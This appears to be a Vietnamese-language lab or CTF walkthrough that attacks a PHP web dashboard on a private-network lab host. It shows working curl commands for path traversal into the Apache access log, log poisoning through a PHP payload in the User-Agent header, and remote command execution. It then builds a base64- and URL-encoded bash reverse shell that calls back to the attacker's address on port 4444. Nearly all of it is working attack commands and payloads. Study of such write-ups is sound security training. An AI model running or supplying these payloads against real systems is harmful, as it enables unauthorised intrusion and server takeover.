 ```
$ curl -X GET 'http://192.168.62.216/dashboard.php?show=pending../../../../../../../var/log/apache2/access.log&ext=' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Cookie: PHPSESSID=5nri5anhvo8a4k05vr2mbi48ci'

...
192.168.49.62 - - [29/Sep/2022:03:51:41 +0000] "GET / HTTP/1.1" 200 3356 "-" "Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.49.62 - - [29/Sep/2022:03:51:41 +0000] "GET /css/bootstrap.css HTTP/1.1" 200 25775 "http://192.168.62.216/" "Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.49.62 - - [29/Sep/2022:03:51:41 +0000] "GET /css/responsive.css HTTP/1.1" 200 697 "http://192.168.62.216/" "Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0"
...
```

Ta để ý, trong format trên, ta có thể thay đổi `User-Agent`:

```console 
curl -X GET 'http://192.168.62.216/dashboard.php?show=pending../../../../../../../var/log/apache2/access.log&ext=' \
-H 'User-Agent: <?php phpinfo(); ?>' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Cookie: PHPSESSID=5nri5anhvo8a4k05vr2mbi48ci'
```

Bây giờ, truy cập vào `http://192.168.62.216/dashboard.php?show=pending../../../../../../../var/log/apache2/access.log&ext=` trên web, ta sẽ thấy `phpinfo()`:

![](https://i.imgur.com/Z8nDhvu.png)

Ta thấy có thể RCE:

```console 
$ curl -X GET 'http://192.168.62.216/dashboard.php?show=pending../../../../../../../var/log/apache2/access.log&ext=' \
-H 'User-Agent: <?php system($_GET["cmd"]); ?>' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Cookie: PHPSESSID=5nri5anhvo8a4k05vr2mbi48ci'
```

Tạo payload dưới dạng base64:

```console 
$ echo '/bin/bash -i >& /dev/tcp/192.168.49.62/4444 0>&1' | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDkuNjIvNDQ0NCAwPiYxCg==
```

Như vậy, `cmd=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDkuNjIvNDQ0NCAwPiYxCg== | base64 -d | bash`, đưa vào URL encode sẽ thành: 

```url 
cmd=%65%63%68%6f%20%4c%32%4a%70%62%69%39%69%59%58%4e%6f%49%43%31%70%49%44%34%6d%49%43%39%6b%5a%58%59%76%64%47%4e%77%4c%7a%45%35%4d%69%34%78%4e%6a%67%75%4e%44%6b%75%4e%6a%49%76%4e%44%51%30%4e%43%41%77%50%69%59%78%43%67%3d%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68
```
